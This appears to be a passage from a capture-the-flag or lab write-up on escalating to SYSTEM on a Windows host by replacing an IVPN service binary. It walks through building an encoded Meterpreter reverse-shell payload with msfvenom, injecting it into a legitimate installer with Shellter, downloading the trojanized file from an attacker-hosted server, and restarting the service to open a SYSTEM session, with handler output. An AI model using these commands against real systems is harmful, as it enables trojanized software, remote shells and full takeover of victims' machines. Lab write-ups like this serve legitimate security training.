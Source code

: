 First we need to create a raw meterpreter reverse shell payload
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=69 -e x86/shikata_ga_nai -i 32 -f raw -o payload32.raw
```
After that, we need to download a tool called TubeDigger, and this is going to be the file that we will inject shellcode into it
```
wget https://www.tubedigger.com/TubeDigger_Install.exe
```
And finally we run shellter
```
.\shellter.exe -a -s -f TubeDigger_Install.exe -p payload32.raw
```
Use wine if on line
```
wine shellter.exe -a -s -f TubeDigger_Install.exe -p payload32.raw
```
While waiting for shellter we can set up metasploit multi handler
And remember to set the auto run script to auto migrate because the file we replace isn't a VPN client, so it is going to crash after running
```
set AutoRunScript post/windows/manage/migrate
```
After shellter is done and metasploit multi handler is running, we can do the same with netcat. We are going to host this with python SimpleHTTPServer
On the target machine, we can use wget in powershell to download and output it in C:\temp
```
powershell wget '10.10.143.251:8000/TubeDigger_Install.exe' -o 'IVPN Service.exe'
```
Before we can run the update.vbs script, we need to stop the IVPN Client service
```
C:\Temp>powershell -c "Get-Service -Name 'IVPN*' "
C:\Temp>powershell -c "Stop-Service -Name 'IVPN*' "
```
Run the script
```
cscript C:\script\update.vbs
```
wait for a bit and check if the file is replaced
```
C:\Temp>dir "C:\Program Files\ivpn client\" | find "IVPN Service.exe"
```
If the file is replaced, we can restart the service to execute the payload
```
C:\Temp>powershell -c "Restart-Service -Name 'IVPN*' "
```
If the service crash too fast and theAutoRunScript in metasploit didn't finish migrate, run the command again or try with start instead of restart

And now we have NT AUTHORITY\SYSTEM
```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.127.125:69 
[*] Sending stage (176195 bytes) to 10.10.239.183
[*] Meterpreter session 2 opened (10.10.127.125:69 -> 10.10.239.183:51056) at 2022-06-16 10:27:29 +0100
[*] Session ID 2 (10.10.127.125:69 -> 10.10.239.183:51056) processing AutoRunScript 'post/windows/manage/migrate'
[*] Running module against OSIRIS
[*] Current server process: IVPN Service.exe (748)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 2792
[*] Sending stage (176195 bytes) to 10.10.239.183
[*] Meterpreter session 3 opened (10.10.127.125:69 -> 10.10.239.183:51059) at 2022-06-16 10:27:32 +0100
```